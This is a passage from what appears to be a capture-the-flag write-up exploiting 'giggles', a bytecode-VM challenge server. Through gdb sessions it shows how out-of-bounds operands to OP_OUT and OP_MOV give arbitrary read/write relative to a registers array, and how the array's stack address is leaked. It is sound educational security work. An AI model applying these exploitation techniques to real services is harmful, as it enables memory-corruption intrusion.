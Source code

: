 It actually uses two `OP_OUT` instructions to read a 64-bit value. This will
basically return `*(uint64_t*)(registers + w)`. To verify that this works, we can
run the server in a debugger. We had to NOP out a call to `alarm` to avoid being
interrupted while debugging. This shows a call to `read_relative(1337)`:

    $ gdb -p 4077 ./giggles
    ...
    (gdb) set follow-fork-mode child
    (gdb) break giggles.c:121
    Breakpoint 1 at 0x7f19ed08597e: file giggles.c, line 121.
    (gdb) c
    Continuing.
    [New process 4230]
    [Switching to process 4230]

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    warning: Source file is more recent than executable.
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $1 = {opcode = 1, operand1 = 30, operand2 = 0, operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $2 = {opcode = 1, operand1 = 785, operand2 = 280267669825,
    operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $3 = {opcode = 5, operand1 = 1338, operand2 = 0, operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $4 = {opcode = 5, operand1 = 1337, operand2 = 0, operand3 = 0}
    (gdb)

Clearly the operands are out of bounds. At this point we have an arbitrary read
and write (via `OP_MOV`) relative to the `registers` array. Turning this into
an absolute read/write is easy too, if we can leak the address of the `registers`
array. Conveniently, it is located on the stack and we can determine its exact
location from the value of the saved stacked pointer:

    (gdb) x/20gx registers
    0x7fff59040d90:	0x0000000000000000	0x0000000000000000
    0x7fff59040da0:	0x0000000000000000	0x0000000000000000
    0x7fff59040db0:	0x0000000000000000	0x00007f19ed0855d8
    0x7fff59040dc0:	0x00007fff59002030	0x0000000000000004
    0x7fff59040dd0:	0x00007f19ee744574	0x65b948277f4f3b00
    0x7fff59040de0:	0x0000000000000000	0x0000000000000000
    0x7fff59040df0:	0x00007fff59040e50 <--  0x00007f19ed085efd
    0x7fff59040e00:	0x00007f19ed08611c	0x0000000400000000
    0x7fff59040e10:	0x00000000000402ed	0x00007f19ee744570
    0x7fff59040e20:	0x00007f19ee7445c0	0x00007f19ee744570
    (gdb) p 0x00007fff59040e50 - 0x7fff59040d90
    $6 = 192

